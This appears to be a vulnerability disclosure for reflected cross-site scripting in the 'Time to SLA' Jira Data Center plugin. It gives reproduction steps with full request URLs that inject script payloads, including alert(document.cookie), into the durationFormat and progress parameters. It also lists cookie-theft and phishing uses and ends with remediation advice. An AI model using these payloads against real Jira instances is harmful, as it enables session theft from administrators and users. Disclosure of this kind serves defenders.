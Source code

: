 Vulnerability submitted by Shuning Xu

Supplier:https://www.atlassian.com/software/jira

Software download link: https://www.atlassian.com/software/jira/update

Affected software :jira software

Vulnerability plugin name: Time to SLA

Vulnerability plugin Version: Version 10.13.5•Jira Data Center 8.0.0 - 9.10.1

Description :For jira software download, select HOSTING TYPES as the data center and download the latest version 9.10.1 locally. Install the latest version 10.13.5 of the Time to SLA plugin, which is applicable to Jira Data Center 8.0.0 - 9.10.1. The Time to SLA plugin has XSS Vulnerabilities, that is, cross-site scripting attacks, attackers will insert malicious JavaScript codes into web pages, and the payload is <ScRiPt>alert(1)</ScRiPt>, which will trigger when administrators/users access, so as to achieve the purpose of the attack. The essential reason is that the server does not strictly filter the data submitted by the user, causing the browser to treat the user's input as JS code and directly return it to the client for execution. What's happening here is reflected XSS. The attacker can steal the cookies of users such as administrators, steal clipboard content, change web page content (such as download links) and so on by using reflected cross-site scripting attacks.

Test process:
1. After installing the plugin Time to SLA, the paid plugin needs to obtain a license and activate the plugin.
Download address: the page

/plugins/servlet/upm/marketplace/featured? source=side_nav_find_new_addons 

Enter the plugin name Time to SLA download.

![image-xss1.1[Time to SLA]](images/xss1.1[Time].png)
![image-xss1.1[Timetracker]](images/xss1.1[Timetracker].png)

Or download in the app store at 
https://marketplace.atlassian.com/apps/1211843/time-to-sla?tab=overview&hosting=datacenter

![image-xss1.2[Time to SLA]](images/xss1.2[Time].png)

2. Navigate to the URL:
http://localhost:port/secure/ConfigureReport.jspa?reportKey=plugin.tts%3Atts-sla-report&selectedProjectId=10000&issueFilter=JQL&jql-field=Assets+is+EMPTY+&filterid=&slaIds=&progress=EXCEED&durationFormat=dayHourMinute&additional-field=priority&additional-field=aggregatetimespent&additional-custom-field=10200&additional-custom-field=10203&additional-custom-field=10106&additional-sla-field=min&sla-field=startDate&sla-field=targetDate&sla-field=endDate&sla-field=elapsedPercentage&sla-field=workingDuration&sla-field=pausedDuration&originDateFrom=2023-08-23&originDateTo=2023-09-20&expectedTargetDateFrom=&expectedTargetDateTo=&actualTargetDateFrom=2023-08-08&actualTargetDateTo=&showDisabledSlas=true

![image-xss1.3[Time to SLA]](images/xss1.3[Time].png)

3. Launch Burp Suite to capture network traffic. Use Burpsuite to capture and change packets for detection:
![image-xss1.4[Time to SLA]](images/xss1.4[Time].png)

4. Change the durationFormat parameter to <ScRiPt>alert(1)</ScRiPt> and send the modified url.

/secure/ConfigureReport.jspa?reportKey=plugin.tts%3Atts-sla-report&selectedProjectId=10000&issueFilter=JQL&jql-field=Assets+is+EMPTY+&filterid=&slaIds=&progress=EXCEED&durationFormat=<ScRiPt>alert(1)</ScRiPt>&additional-field=priority&additional-field=aggregatetimespent&additional-custom-field=10200&additional-custom-field=10203&additional-custom-field=10106&additional-sla-field=min&sla-field=startDate&sla-field=targetDate&sla-field=endDate&sla-field=elapsedPercentage&sla-field=workingDuration&sla-field=pausedDuration&originDateFrom=2023-08-23&originDateTo=2023-09-20&expectedTargetDateFrom=&expectedTargetDateTo=&actualTargetDateFrom=2023-08-08&actualTargetDateTo=&showDisabledSlas=true

Or change the durationFormat parameter to <ScRiPt>alert(document.cookie)</ScRiPt> and send the modified url.

/secure/ConfigureReport.jspa?reportKey=plugin.tts%3Atts-sla-report&selectedProjectId=10000&issueFilter=JQL&jql-field=Assets+is+EMPTY+&filterid=&slaIds=&progress=EXCEED&durationFormat=<ScRiPt>alert(document.cookie)</ScRiPt>&additional-field=priority&additional-field=aggregatetimespent&additional-custom-field=10200&additional-custom-field=10203&additional-custom-field=10106&additional-sla-field=min&sla-field=startDate&sla-field=targetDate&sla-field=endDate&sla-field=elapsedPercentage&sla-field=workingDuration&sla-field=pausedDuration&originDateFrom=2023-08-23&originDateTo=2023-09-20&expectedTargetDateFrom=&expectedTargetDateTo=&actualTargetDateFrom=2023-08-08&actualTargetDateTo=&showDisabledSlas=true

Or Change the progress parameter to <ScRiPt>alert(2)</ScRiPt> and send the modified url.

/secure/ConfigureReport.jspa?reportKey=plugin.tts%3Atts-sla-report&selectedProjectId=10000&issueFilter=JQL&jql-field=Assets+is+EMPTY+&filterid=&slaIds=&progress=<ScRiPt>alert(2)</ScRiPt>&durationFormat=dayHourMinute&additional-field=priority&additional-field=aggregatetimespent&additional-custom-field=10200&additional-custom-field=10203&additional-custom-field=10106&additional-sla-field=min&sla-field=startDate&sla-field=targetDate&sla-field=endDate&sla-field=elapsedPercentage&sla-field=workingDuration&sla-field=pausedDuration&originDateFrom=2023-08-23&originDateTo=2023-09-20&expectedTargetDateFrom=&expectedTargetDateTo=&actualTargetDateFrom=2023-08-08&actualTargetDateTo=&showDisabledSlas=true

5. A pop-up window will appear on the web page, and an alarm box showing 1 will pop up, triggering XSS, indicating that there is cross-site vulnerability, recording the vulnerability, and stopping the test.

![image-xss1.5[Time to SLA]](images/xss1.5[Time].png)

![image-xss1.6[Time to SLA]](images/xss1.6[Time].png)

A pop-up warning box showing cookies

![image-xss1.7[Time to SLA]](images/xss1.7[Time].png)

A pop-up warni

Attack steps:

1.Attackers create and test malicious URLs;

2.The attacker is sure that the victim loaded a malicious URL in the browser;

3.The attacker uses reflected cross-site scripting attacks to install keyloggers, steal victims' cookies, steal clipboard content, and change web page content (such as download links).

Attack method:

1. Use xss testing platform BlueLotus to steal cookies

2.Malicious links

3. Web phishing

4.Redirection implanted advertisement

Risk level: reflected cross-site presence in the application

Repair solution: 

For XSS cross-site vulnerabilities, the following repair methods can be used:

Overall fix: Validate all input data to effectively detect attacks; properly encode all output data to prevent any successfully injected scripts from running on the browser side. details as follows :

Input Validation: Validate the length, type, syntax, and business rules of all input data using standard input validation mechanisms before a certain data is accepted for display or storage.

Output encoding: Before data output, ensure that the data submitted by the user has been correctly encoded by entity. It is recommended to encode all characters instead of being limited to a certain subset.

Explicitly specify the encoding of the output: don't allow an attacker to choose an encoding (such as ISO 8859-1 or UTF 8) for your users.

Pay attention to the limitations of the blacklist verification method: just find or replace some characters (such as "<" ">" or keywords like "script"), it is easy to bypass the verification mechanism by XSS variant attacks.

Beware of normalization errors: Before validating input, it must be decoded and normalized to conform to the application's current internal representation. Make sure the application does not decode the same input twice. To filter the data submitted by the client, it is generally recommended to filter out special characters such as double quotes ("), angle brackets (<, >), or perform entity conversion on the special characters contained in the data submitted by the client, such as double quotes (") into its entity form &quot;, <corresponding entity form is &lt;, <corresponding entity form is&gt; The following are common characters to be filtered:
